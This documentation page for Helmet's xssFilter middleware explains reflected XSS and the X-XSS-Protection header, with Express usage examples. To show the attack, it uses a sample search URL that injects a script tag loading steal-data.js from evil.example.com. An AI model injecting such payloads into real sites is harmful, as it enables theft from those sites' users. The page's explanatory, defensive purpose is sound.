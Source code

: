 ```yaml
---
layout: page
title: XSS Filter
permalink: /docs/xss-filter/
---
```

In short: the `xssFilter` middleware sets the `X-XSS-Protection` header to prevent reflected XSS attacks.

The attack
----------

Cross-site scripting, abbreviated to "XSS", is a way attackers can take over webpages. The goal of an XSS attack is to gain control of JavaScript in the victim's browser. Once a hacker has done that, there's a lot of nasty stuff they can do: log your actions, impersonate you, steal your authentication cookies, and much more.

XSS is a multifaceted beast and we won't learn everything about it here. The main takeaway: if someone can run JavaScript on your page, they can attack your users and do a lot of bad things. We want to prevent it!

One kind of XSS is called "Reflected XSS". Typically, it works by setting a query string which is put directly into the HTML. Putting JavaScript in the query string can let an attacker execute their JavaScript just by giving someone a malicious query string.

For example, let's say you run a search engine called Goober. Every time you do a search, it displays your search terms right above your results. For example, let's say we've searched for "javascript jokes".

When you do a search, your search terms also appear in your query string. The full URL might look something like this:

```
https://goober.example.com/search?query=javascript+jokes
```

The search results might look like the screenshot below. Notice how the text appears right on the page:

![Screenshot of normal Goober search](xss-filter-ok.png)

What if we could search for something like `<script src="http://evil.example.com/steal-data.js"></script>`? That URL would look like this:

```
https://goober.example.com/search?query=<script%20src="http://evil.example.com/steal-data.js"></script>
```

And here's how it would appear on your page:

![Screenshot of malicious Goober search](xss-filter-malicious.png)

Suddenly, a malicious JavaScript file was executed just because you visited a URL! That's not good.

Read more:

- [Guide to understanding XSS](http://www.securesolutions.no/xss-explained/)
- [Cross-site Scripting (XSS)](https://www.owasp.org/index.php/XSS)
- [What is Reflected XSS?](http://security.stackexchange.com/q/65142)
- [XSS (Cross Site Scripting) Prevention Cheat Sheet](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet)

The header
----------

To be very clear: *this header does not protect you from XSS attacks much*. It protects against a very particular kind of XSS, and other mitigation measures are far better. This header provides a quick win and basic protection, but this header does not save you from XSS attacks.

It's relatively easy for browsers to detect simple reflected XSS. In the example above, browsers could choose not to execute the JavaScript inside a `<script>` tag if it matches what's in the query string. Some browsers do this detection by default, but some don't. To make these browsers check for this simple case, you can set the `X-XSS-Protection` header to `1; mode=block`.

This tells browsers to detect and block reflected XSS.

This header causes some *even worse* security vulnerabilities in older versions of Internet Explorer, so it's wise to disable it there.

- ["Controlling the XSS Filter" on MSDN](http://blogs.msdn.com/b/ieinternals/archive/2011/01/31/controlling-the-internet-explorer-xss-filter-with-the-x-xss-protection-http-header.aspx)
- ["IE's XSS Filter Creates XSS Vulnerabilities"](http://hackademix.net/2009/11/21/ies-xss-filter-creates-xss-vulnerabilities/)
- ["XSS Filter Script Handling Vulnerability - CVE-2009-4074"](https://technet.microsoft.com/library/security/ms10-002#XSS%20Filter%20Script%20Handling%20Vulnerability%20-%20CVE-2009-4074)

The code
--------

Helmet's `xssFilter` is a relatively simple middleware that will set the `X-XSS-Protection` header. On most browsers, it will set it to `1; mode=block`. On old Internet Explorer versions, it will set it to `0` to disable it.

You can use this module as part of Helmet:

```javascript
// Make sure you run "npm install helmet" to get the Helmet package.
var helmet = require('helmet')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(helmet.xssFilter())
```

You can also use it as a standalone module:

```javascript
// Make sure you run "npm install x-xss-protection" to get this package.
var xssFilter = require('x-xss-protection')

// Sets "X-XSS-Protection: 1; mode=block".
app.use(xssFilter())
```

To force the header to be set to `1; mode=block` on all versions of IE, add the option:

```javascript
app.use(xssFilter({ setOnOldIE: true }))
// This has some security problems for old IE!
```

This header is included in the default Helmet bundle.
